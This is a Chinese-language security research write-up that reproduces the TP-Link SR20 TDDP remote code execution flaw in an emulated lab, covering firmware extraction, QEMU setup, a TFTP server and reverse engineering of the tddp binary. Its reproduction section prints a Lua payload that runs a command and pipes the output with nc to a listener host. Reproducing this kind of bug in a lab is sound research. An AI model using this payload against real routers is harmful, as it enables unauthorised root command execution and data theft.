# TP-Link SR20 RCE复现-先知社区

> **来源**: https://xz.aliyun.com/news/17329  
> **文章ID**: 17329

---

# TP-Link SR20 RCE复现

TP-Link SR20 是一款支持 Zigbee 和 Z-Wave 物联网协议可以用来当控制中枢 Hub 的触屏 Wi-Fi 路由器，此远程代码执行漏洞允许用户在设备上以 root 权限执行任意命令，该漏洞存在于 TP-Link 设备调试协议(TP-Link Device Debug Protocol 英文简称 TDDP) 中，TDDP 是 TP-Link 申请了[专利](https://patents.google.com/patent/CN102096654A/en)的调试协议，基于 UDP 运行在 1040 端口

TP-Link SR20 设备运行了 V1 版本的 TDDP 协议，V1 版本无需认证，只需往 SR20 设备的 UDP 1040 端口发送数据，且数据的第二字节为 `0x31` 时，SR20 设备会连接发送该请求设备的 TFTP 服务下载相应的文件并使用 LUA 解释器以 root 权限来执行，这就导致存在远程代码执行漏洞

## 固件提取

先从官网下载  [TP-Link SR20](https://www.tp-link.com/us/support/download/sr20/#Firmware) 固件,选择 SR20(US)\_V1\_180518。



然后解压出来一共两个文件。

`tpra_sr20v1_us-up-ver1-2-1-P522_20180518-rel77140_2018-05-21_08.42.04.bin` 是该 SR20 设备的 firmware 固件。



使用 `binwalk` 查看固件信息



从输出结果大致可以判断如下信息

**LZMA 压缩数据 (两段)**

```
155672        0x26018         LZMA compressed data, properties: 0x5D, dictionary size: 65536 bytes, uncompressed size: 300028 bytes
233492        0x39014         LZMA compressed data, properties: 0x5D, dictionary size: 65536 bytes, uncompressed size: 4629600 bytes
```

* **LZMA 压缩数据**：固件文件包含了两段 `LZMA` 压缩数据。

**2. TRX 固件头部**

```
233464        0x38FF8         TRX firmware header, little endian, image size: 1941504 bytes, CRC32: 0x2DAE9AF0, flags: 0x0, version: 1, header size: 28 bytes, loader offset: 0x1C, linux kernel offset: 0x0, rootfs offset: 0x0
```

* **TRX 固件头部**：这部分是固件的头部信息，描述了固件的格式和结构。`TRX` 是一些路由器和嵌入式设备使用的固件格式，包含有关图像大小、CRC32 校验和等信息。
* **固件大小**：1941504 字节。
* **内核偏移**：0x0，表示固件的内核没有偏移，可能位于固件的开始处。

**3. StuffIt Deluxe 数据**

```
1635467       0x18F48B        StuffIt Deluxe Segment (data): f%
```

**4. Squashfs 文件系统**

```
2174969       0x212FF9        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 13061274 bytes, 2642 inodes, blocksize: 131072 bytes, created: 2018-05-19 04:25:38
```

* **Squashfs 文件系统**：这是固件的文件系统部分，使用了 `xz` 压缩。`Squashfs` 是一种只读的文件系统，经常用于嵌入式设备。
* 文件系统大小为 13,061,274 字节，包含 2642 个 inode（文件系统中的文件和目录的条目）。

**提取文件系统**

```
binwalk -Me tpra_sr20v1_us-up-ver1-2-1-P522_20180518-rel77140_2018-05-21_08.42.04.bin 
```



binwalk 会在当前目录的 `_+文件名+extracted` 目录下生成提取出来的固件里的所有内容



进入到该目录查看，`squashfs-root` 就是我们需要的文件系统



是一个正常的 linux 文件系统结构



漏洞点在于 TDDP 协议，直接在当前目录里搜索 tddp 文件，并查看系统架构为 ARM 的32位可执行程序。



尝试使用 qemu 启动该 tddp 文件

```
qemu-arm -L . ./usr/bin/tddp
# -L 动态连接
```



显示报错没有 qemu-arm，尝试安装，安装好后再次尝试启动

```
sudo apt install qemu-user
```



显示 task start 就表示成功启动了。

## 搭建 ARM QEMU 虚拟机环境

ARM CPU 有两个矢量浮点（软浮点和硬浮点）具体区别可以查看 [Stackoverflow](https://stackoverflow.com/questions/3321468/whats-the-difference-between-hard-and-soft-floating-point-numbers)，本次选择使用硬浮点 armhf

从 Debian [官网](https://people.debian.org/~aurel32/qemu/armhf/)下载 QEMU 需要的 Debian ARM 系统的三个文件:



```
wget https://people.debian.org/~aurel32/qemu/armhf/debian_wheezy_armhf_standard.qcow2
wget https://people.debian.org/~aurel32/qemu/armhf/initrd.img-3.2.0-4-vexpress
wget https://people.debian.org/~aurel32/qemu/armhf/vmlinuz-3.2.0-4-vexpress
```



为了与 QEMU 虚拟机通信，添加一个 `tap0` 的 **TAP 虚拟网卡**,并添加的 `tap0` 接口配置了 IP 地址 `10.10.10.1`，并指定了子网掩码 `255.255.255.0`（`/24`）。

```
sudo tunctl -t tap0 -u $(whoami)
sudo ifconfig tap0 10.10.10.1/24 
```

能正常显示基本没问题



配置启动 `start.sh` 脚本

```
qemu-system-arm \
    -M vexpress-a9 \
    -kernel vmlinuz-3.2.0-4-vexpress \
    -initrd initrd.img-3.2.0-4-vexpress \
    -drive if=sd,file=./debian_wheezy_armhf_standard.qcow2 \
    -append "root=/dev/mmcblk0p2 console=ttyAMA0" \
    -net nic \
    -net tap,ifname=tap0,script=no,downscript=no \
    -nographic
```



然后运行 `start.sh` 启动 `qemu`

使用 `root root` 登陆进行



配置网卡，然后尝试 `ping` 宿主机。能 `ping` 通 ，这时候 QEMU 虚拟机可以与宿主机进行正常的网络通信。

```
ifconfig eth0 10.10.10.2/24
ping -c 3 10.10.10.1
```



压缩固件文件系统目录下的整个文件,使用 python 启动 http 服务传入 Qemu 中解压。

```
iot$ tar -czvf rootfs.tar.gz ./squashfs-root/
iot$  python3 -m http.server 1314
qemu$ wget 10.10.10.1:1314/rootfs.tar.gz && tar -xvf rootfs.tar.gz
```



先挂载文件系统后，使用 chroot 切换根目录固件文件系统

将宿主系统的 `/dev` 目录挂载到目标文件系统中的 `/dev`，使目标文件系统可以访问设备。

将宿主系统的 `proc` 文件系统挂载到目标文件系统中的 `/proc`，以提供内核和进程信息。

使用 `chroot` 命令将当前根目录切换到目标文件系统，并启动一个新的 shell，进入目标文件系统环境中进行操作。

> 使用 chroot 后，系统读取的是新根下的目录和文件，也就是固件的目录和文件，但是chroot 默认不会切换 /dev 和 /proc, 因此切换根目录前需要现挂载这两个目录。

```
mount -o bind /dev ./squashfs-root/dev/
mount -t proc /proc/ ./squashfs-root/proc/
chroot squashfs-root sh 
```



## 搭建 TFTP Server

因为 SR20 设备会连接发送该请求设备的 TFTP 服务下载相应的文件并使用 LUA 解释器以 root 权限来执行，所以我们需要搭建 TFTP服务。

现在开始在宿主机中搭建 TFTP 服务。

```
sudo apt install atftpd -y
sudo vim /etc/default/atftpd
```

* `USE_INETD=true` 改为 `USE_INETD=false`
* `/srv/tftp` 为 `/tftpboot`

修改完效果图如下



```
sudo mkdir /tftpboot
sudo chmod 777 /tftpboot
sudo systemctl start atftpd
sudo systemctl status atftpd
```

> 提示 `atftpd: can't bind port :69/udp` 无法绑定端口
>
> 可以执行 `sudo systemctl stop inetutils-inetd.service` 停用 `inetutils-inetd` 服务后
>
> 再执行 `sudo systemctl restart atftpd` 重新启动 atftpd 即可正常运行 atftpd

查看 `tftp` 服务没状态后，环境就搭建好了，下面开始复现漏洞。



## 漏洞复现

在 `/tftpboot` 下写入 `payload` 文件, payload 内容如下

```
function config_test(config)
  os.execute("id | nc 10.10.10.1 1314")
end
```



复现步骤为：

1. QEMU 虚拟机中启动 tddp 程序
2. 宿主机使用 NC 监听端口对应 `payload` 中的端口
3. 执行 POC，获取命令执行结果，结果会在第二步中的 `NC` 回显。



但是尝试使用 telnetd 开启端口拿到一个shell的时候，虽然能正常连接，但是回显不出来。



## 漏洞分析

#### TDDP协议格式

在 [该文章](https://patents.google.com/patent/CN102123140A/zh),中我们获取到了 `TDDP` 协议报头的格式。



* Ver：TDDP协议的版本；

* 版本包括 `version1`  和 `version2` 。
* 其中 `version1` 不支持身份验证和对数据包载荷的加密，而`version2` 要求身份验证和加密。
* 因为 `version1` 不要求身份的认证即可对设备进行调试，导致出现漏洞。

* Type：报文类型，目前分为4类；包括：

* 设置配置信息（SET\_USR\_CFG）、获取配置信息（GET\_SYS\_INF）、特殊配置命令（CMD\_SPE\_OPR）、心跳包（HEART\_BEAT）

* Code：请求类型，包括：

* 请求报文（TDDP\_REQUEST）、响应报文（TDDP\_REPLY）

* ReplyInfo：返回信息，包括：

* 命令执行成功（REPLY\_OK）、执行错误（REPLY\_ERROR）

* PktLength：数据长度，不包括报头；
* PktID：报文的ID，每发送一个，该值递增，返回报文应该和接收报文ID一致；
* SubType：Type的子类型；

* 对于Type中的设置配置信息和获取配置信息无定义，主要用于系统操作命令的子类型，如保存设置，重启路由器等；

* Reserve：保留；
* Digest：对整个数据包计算MD5所获取的信息摘要。

#### TDDP协议逆向

###### main

将文件系统中的 `./usr/bin/tddp` 拖到 `IDA` 中分析。`tddp` 去过符号表导致没有函数名，不过小问题我们自己分析一下就可以。



这里的 `sub_971C`就是`mian`函数，大致分析一下恢复如下



###### tddp\_task

进入 `tddp_task`

「1」先对 tddp 的一个结构体进行初始化内存、创建 `socket` 文件描述符，绑定地址等,逆向的结构体大致如下

```
00000000 tddp struc ; (sizeof=0x15FE4, mappedto_37)
00000000 field_0 DCB 32 dup(?)                   ; string(C)
00000020 time_f DCD ?
00000024 fd DCD ?
00000028 field_10 DCD ?
0000002C flags DCD ?
00000030 time_intval DCD ?
00000034 tv_sec DCD ?
00000038 field_38 DCB 26 dup(?)                  ; string(C)
00000052 send_buf DCB 45001 dup(?)               ; string(C)
0000B01B recv_buf DCB 45001 dup(?)               ; string(C)
00015FE4 tddp ends
```

「2」然后进行 flags、time 的设置之后调用 `tddp_func` 。



###### tddp\_func

「1」先对 tddp进行接受、发送缓冲区的初始化，并使用 `recvform` 函数接受数据到 `ctx->recv_buf`

「2」这里对ctx上下文初始化了 lua相关的设置

「3」然后根据不同协议调用不同的函数，这里进入 `tddp_version_1_func`



###### tddp\_version\_1\_func

「1」首先通过发送的数据包中的数据来选择对应不同的函数



「2」漏洞点在于 `0x31` 处，对应宏为 CMD\_FTEST\_CONFIG ，继续跟进CMD\_FTEST\_CONFIG



###### CMD\_FTEST\_CONFIG

「1」 对应的指令操作和我们之前复现的时候一样，先进入 `/tmp` 下，然后使用 `tftp` 获取 `lua` 文件

「2」 然后先进行 lua 库加载（file\_name 来自ftp的文件名），函数压栈,使用函数为config\_test，调用 `lua_call` 进行`c`程序调用lua脚本，漏洞点就在此处，没有任何过滤即可传入 `lua` 脚本执行任意代码。



> TP-Link 的 TL-WA5210g 无线路由器的 TDDP 服务只能通过有线网络访问，连 Wi-Fi 也不能访问，由于手上没有 SR20设备，因此断定该 SR20 设备的 TDDP 端口可能也是这种情况，我想这应该就是官方未修复此漏洞的原因吧

## 参考链接

<https://patents.google.com/patent/CN102123140A/zh>

[重现 TP-Link SR20 本地网络远程代码执行漏洞](https://paper.seebug.org/879/#tftp-server)
